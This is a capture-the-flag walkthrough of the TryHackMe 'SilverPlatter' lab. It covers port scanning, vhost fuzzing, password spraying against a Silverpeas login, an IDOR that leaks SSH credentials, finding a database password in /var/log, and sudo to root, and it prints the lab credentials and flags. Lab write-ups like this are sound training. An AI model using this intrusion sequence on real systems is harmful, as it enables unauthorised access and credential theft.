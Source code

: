 # 🧠 SilverPlatter  
**By Allante Johnson**

---

## 🧭 Overview
This walkthrough documents the full exploitation path of the **SilverPlatter** machine, including **enumeration**, **web exploitation**, **IDOR vulnerability abuse**, **SSH access**, and **privilege escalation** to root.  
Each step includes commands, findings, and screenshots for validation.

---

## 🔍 Enumeration

### Nmap Syntax
```bash
nmap -p- [Target IP] -v -T5
nmap -p [Open Ports] -A [Target IP] -v -T5
```

### Nmap Results
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy
```

---

## 🌐 Web App Enumeration

### HTTP (80)
Ran `dirsearch` to identify accessible directories:
```bash
dirsearch -u 10.10.84.136
```

### 🧭 Virtual Host Discovery (VHosts)
```bash
./vhost-fuzzer.sh 10.10.84.136 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.84.136 14124
```

### Website Screenshot
![Silverpeas Web App](./screenshots/silverpass.png)

🟢 **Software Identified:** Silverpeas  
🧑 **Username Discovered:** `scr1ptkiddy`

---

## ⚙️ Service on Port 8080
Accessed login portal:
```
http://10.10.84.136:8080/silverpeas/defaultLogin.jsp
```
![Silverpeas Login](./screenshots/image.png)

---

## 🔐 Credential Brute Force / Password Spraying
Generated custom password list with `cewl` and used Burp Suite Turbo Intruder.

![Turbo Intruder](./screenshots/image%20(7).png)

🟢 Valid credentials:
```
Username: scr1ptkiddy
Password: adipiscing
```

![Login Success](./screenshots/image%20(3).png)

---

## 📨 IDOR Vulnerability – Credential Disclosure
![IDOR](./screenshots/image%20(4).png)

🧾 Credentials leaked:
```
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

## 💻 SSH Access
```bash
ssh tim@10.10.164.112
```

![SSH User Login](./screenshots/image%20(2).png)

### 🧾 User Flag
```bash
cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
```
![User Flag](./screenshots/image%20(1).png)

---

## 📈 Privilege Escalation Enumeration
User in `adm` group can read `/var/log`.

Found DB password in logs:  
![Log Discovery](./screenshots/image%20(5).png)

```
DB_PASSWORD=_Zd_zx7N823/
```

Switched to Tyler:  
![Switch User](./screenshots/image%20(6).png)

---

## 🧠 Root Privilege Escalation
Checked sudo privileges and escalated:
```bash
sudo su
cd /root && cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```
![Root Flag](./screenshots/image%20(7).png)

---

## ✅ Summary
| Step | Action | Result |
|------|--------|---------|
| Recon | Nmap | Found ports 22, 80, 8080 |
| Web Enum | Dirsearch + VHosts | Found Silverpeas |
| Exploitation | IDOR | Gained SSH access |
| PrivEsc | adm logs | Found DB creds |
| Root | Sudo | Got root flag |

---

## 🧠 Lessons Learned
- Always inspect `/var/log/` when user is in `adm` group.
- Look for credential reuse.
- Web apps may expose sensitive data via IDOR.

---

## 📂 Repository Info
**Repository Name:** `SilverPlatter`  
**Status:** ✅ Completed  
**Type:** TryHackMe Walkthrough
